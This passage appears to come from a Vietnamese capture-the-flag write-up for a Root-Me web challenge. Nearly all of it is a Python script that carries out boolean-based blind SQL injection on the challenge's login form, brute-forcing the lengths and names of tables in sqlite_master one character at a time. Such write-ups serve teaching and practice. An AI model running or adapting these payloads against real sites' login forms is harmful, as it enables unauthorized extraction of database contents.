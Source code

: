 Ok cứ với ý tưởng trên ta sẽ viết code như sau : 

```python=
import sys
import requests
import urllib3
import urllib

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
URL = "http://challenge01.root-me.org/web-serveur/ch10/"

def lenght_table(offset):
    for i in range(0, 30):
        payload = f"admin' AND (SELECT LENGTH(name) from sqlite_master WHERE type='table' limit 1 offset {offset})={i}-- -"
        DATA = {"username":payload, "password": "123"}
        http = requests.post(url=URL, data=DATA, verify=False, proxies=proxies)
        if "Welcome back admin !" in http.text:
            return i

def table_name():
    #10 column đầu tiên
    for k in range(0,10):
        length = lenght_table(k)
        if length is None:
            continue
        print(f"Table tại offset {k} có {length} kí tự , đang dò tên table, loading... ")
        table=''
        for i in range(1, length + 1):
            for j in range(97, 123):
                payload = f"admin' AND (SELECT SUBSTR((SELECT name FROM sqlite_master WHERE type='table' limit 1 offset {k}),{i},1))='{chr(j)}'-- -"
                DATA = {"username": payload, "password": "123"}
                http = requests.post(url=URL, data=DATA, verify=False, proxies=proxies)
                if "Welcome back admin !" in http.text:
                    table+=chr(j)
                    sys.stdout.write('\r' + 'Kết quả là : ' + table)
                    sys.stdout.flush()
                    break
                else:
                    sys.stdout.write('\r' + 'Kết quả là : ' + table + chr(j))
                    sys.stdout.flush()
        print('\n')

if __name__ == "__main__":
    table_name()
```

Kết quả 

![image](https://hackmd.io/_uploads/Sym2k-aSp.png)
